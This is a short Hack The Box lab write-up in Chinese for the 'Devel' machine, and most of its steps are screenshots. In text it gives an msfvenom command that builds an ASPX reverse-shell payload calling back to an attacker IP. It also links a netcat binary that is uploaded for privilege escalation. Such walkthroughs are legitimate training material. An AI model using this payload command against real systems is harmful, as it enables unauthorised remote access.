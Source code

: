 +++
title = '0X003 Devel'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE8fa170ba37f4fdeeebab2d8169336c34image.png)

![](/htb_img/WEBRESOURCE77147834dff16d0532bf298f0ff45314image.png)

![](/htb_img/WEBRESOURCE20d52032feda99b423deb2fa93ae93a2image.png)

# 获取立足点

ftp匿名登录:

![](/htb_img/WEBRESOURCEdda843ba7d07b35e6a5190d2007b8a8bimage.png)

HTTP配合：

![](/htb_img/WEBRESOURCE4585ba8026fe26a06f7f20ad79925988image.png)

生成木马：

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=8889 -f aspx -o cxk.aspx

![](/htb_img/WEBRESOURCE93b9d30a443c1afadfd86c98d81e9888image.png)

![](/htb_img/WEBRESOURCEa5950510bcf11e167cd7053203227b51image.png)

![](/htb_img/WEBRESOURCEda8018e18f77cf2ea0a6ec577ac7757dimage.png)

# 提权

没有任何补丁：

![](/htb_img/WEBRESOURCE509e781aa6e38526e096213733c82c83image.png)

内核提权试试：

![](/htb_img/WEBRESOURCE87c9c9a4ef6e7a3b8aa0cf997a4692a3image.png)

![](/htb_img/WEBRESOURCE310b6501a12cf39328a35d979f49c2eeimage.png)

上传32位的nc:

[https://github.com/int0x33/nc.exe/blob/master/nc.exe](https://github.com/int0x33/nc.exe/blob/master/nc.exe)

![](/htb_img/WEBRESOURCEc4e3a7d776e726e569ad4208ad021cdeimage.png)

![](/htb_img/WEBRESOURCEe3ae08c61484e306d1701a528ecf7c63image.png)

6988a0c5429f9c38b48a927333d8701a

![](/htb_img/WEBRESOURCE6c35dd9d6df83c998958875edb31c3f6image.png)